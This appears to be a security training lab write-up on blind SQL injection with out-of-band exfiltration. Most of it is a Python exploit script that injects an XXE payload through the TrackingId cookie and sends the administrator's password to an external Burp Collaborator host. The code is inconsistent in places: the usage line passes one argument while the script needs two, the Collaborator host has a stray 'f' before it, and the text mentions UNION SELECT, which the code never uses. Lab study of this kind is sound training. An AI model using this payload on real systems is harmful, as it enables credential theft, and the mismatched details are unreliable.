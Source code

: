 ```yaml
---
title: 'SQLi Lab 17'
description: 'Blind SQL injection to extract administrator password using Burp Collaborator'
---
```



## Blind SQL injection with out-of-band data exfiltration

<div style="text-align: justify;">
  This lab demonstrates exploiting a blind SQL injection (SQLi) vulnerability via a tracking cookie. The application executes the SQL query asynchronously, so the response does not contain query results. However, out-of-band (OOB) interactions with an external domain can be triggered to retrieve sensitive data.

  By modifying the `TrackingId` cookie and leveraging Burp Collaborator, I was able to extract the administrator's password from the `users` table. The asynchronous behavior requires polling Collaborator for DNS or HTTP interactions to view the exfiltrated data.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The `TrackingId` cookie is vulnerable to blind SQL injection.
- Payloads use `UNION SELECT` and `EXTRACTVALUE` with an embedded XML/XXE structure to trigger OOB interactions.
- A Burp Collaborator subdomain is used to capture the exfiltrated administrator password.
- Polling the Collaborator tab shows DNS and HTTP interactions that reveal the password.
- Once obtained, the administrator password is used to log in to the application.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import sys
import requests
import urllib3

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Optional: Proxy through Burp (set {} if not needed)
proxies = {"http": "http://127.0.0.1:8080",
           "https": "http://127.0.0.1:8080"}


def grab_initial_cookies(url: str):
    """Fetch initial cookies from target lab."""
    r = requests.get(url, verify=False, proxies=proxies, timeout=15)
    tracking_id = r.cookies.get("TrackingId")
    session_cookie = r.cookies.get("session")

    if not tracking_id or not session_cookie:
        print("[-] Failed to grab TrackingId/session cookie.")
        sys.exit(1)

    return tracking_id, session_cookie


def build_payload(collab_subdomain: str) -> str:
    """
    Build SQLi payload to exfiltrate administrator password
    into a DNS/HTTP request to Burp Collaborator.
    """
    return (
        f"'||(SELECT EXTRACTVALUE(xmltype('<?xml version=\"1.0\" encoding=\"UTF-8\"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM \"http://'||(select password from users where username = 'administrator')||'.f{collab_subdomain}/\"> %25remote%3b]>'),'/l') FROM dual)-- -"
    )


def send_payload(url: str, session_cookie: str, payload: str):
    """Send malicious TrackingId cookie with OOB exfil payload."""
    cookies = {
        "TrackingId": payload,
        "session": session_cookie
    }
    print("[*] Sending payload...")
    try:
        r = requests.get(url, cookies=cookies, verify=False, proxies=proxies, timeout=10)
        print(f"[+] HTTP {r.status_code} received. Now check your Collaborator tab.")
    except requests.exceptions.RequestException as e:
        print(f"[!] Request failed: {e}")


def main():
    if len(sys.argv) != 3:
        print("Usage: python oob_sqli_exfil.py <url> <collaborator-subdomain>")
        sys.exit(1)

    url = sys.argv[1].rstrip("/")
    collab = sys.argv[2].rstrip("/")

    print(f"[*] Target: {url}")
    print(f"[*] Collaborator: {collab}")

    tracking_id, session_cookie = grab_initial_cookies(url)
    print(f"[*] Got TrackingId: {tracking_id}")
    print(f"[*] Got session: {session_cookie}")

    payload = build_payload(collab)
    send_payload(url, session_cookie, payload)

    print("\n[*] Payload sent!")
    print("    → Open Burp → Collaborator tab → Poll now.")
    print("    → Look for a DNS/HTTP request with the password in the subdomain.")
    print("    → Use that password to log in as administrator ✅.")


if __name__ == "__main__":
    main()
```